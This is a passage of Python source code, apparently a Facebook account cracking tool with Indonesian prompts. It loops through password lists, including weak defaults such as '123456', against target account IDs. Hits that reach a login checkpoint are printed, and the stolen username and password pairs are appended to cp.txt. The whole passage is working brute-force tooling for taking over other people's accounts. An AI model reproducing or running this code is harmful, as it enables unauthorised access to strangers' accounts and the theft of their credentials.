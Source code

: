     else:
      if "www.facebook.com" in response.json()["error_msg"]:
        self.cp.append(username + " • " + password)
        print(("\r\x1b[0;33m[\x1b[0;37mCP\x1b[0;33m] %s • %s %s               "%(username,password,N)))
        save = open("cp.txt", "a+")
        save.write(str(username) + " • " + str(password) + "\n")
        save.close()
        return True
    return False
  def brute(self, fl):
    if self.setpw == False:
      self.loop += 1
      for pw in fl["pw"]:
        username = fl["id"].lower()
        password = pw.lower()
        try:
          if self.bruteRequest(username, password) == True:
            break
        except:
          continue
        print(("\r\x1b[0;33m[\x1b[0;37mCrack\x1b[0;33m]\x1b[0;37m %s/%s \x1b[0;32m[\x1b[0;37mOK : %s\x1b[0;32m] \x1b[0;33m[\x1b[0;37mCP : %s\x1b[0;33m]\x1b[0;37m"%(self.loop,len(self.fl),len(self.ok),len(self.cp))), end=' ');sys.stdout.flush()
    else:
      self.loop += 1
      for pw in self.setpw:
        username = users["id"].lower()
        password = pw.lower()
        try:
          if self.bruteRequest(username, password) == True:
            break
        except:
          continue
        print(("\r\x1b[0;33m[\x1b[0;37mCrack\x1b[0;33m]\x1b[0;37m %s/%s \x1b[0;32m[\x1b[0;37mOK : %s\x1b[0;32m] \x1b[0;33m[\x1b[0;37mCP : %s\x1b[0;33m]\x1b[0;37m"%(self.loop,len(self.fl),len(self.ok),len(self.cp))), end=' ');sys.stdout.flush()

class bapittl:
  def __init__(self,isifile):
    self.setpw = False
    self.ok = []
    self.cp = []
    self.loop = 0
    self.krah(isifile)
  def krah(self,isifile):
    print((k+"\n["+p+"•"+k+"]"+p+" Mode Crack Password Default/Manual [d/m]"))
    while True:
      f=input(k+"["+p+"•"+k+"]"+p+" Pilih : ")
      if f in[""," "]:
        print((k+"["+p+"!"+k+"]"+p+" Invalid Number"))
        continue
      elif f in["m","M"]:
        try:
          while True:
            try:
              self.apk=isifile
              self.fs=open(self.apk).read().splitlines()
              break
            except Exception as e:
              print((k+"["+p+"!"+k+"]"+p+" %s"%e))
              continue
          self.fl=[]
          print((k+"["+p+"•"+k+"]"+p+" Example : sayang,bismillah,123456"))
          self.pw=input(k+"["+p+"•"+k+"]"+p+" Password List : ").split(",")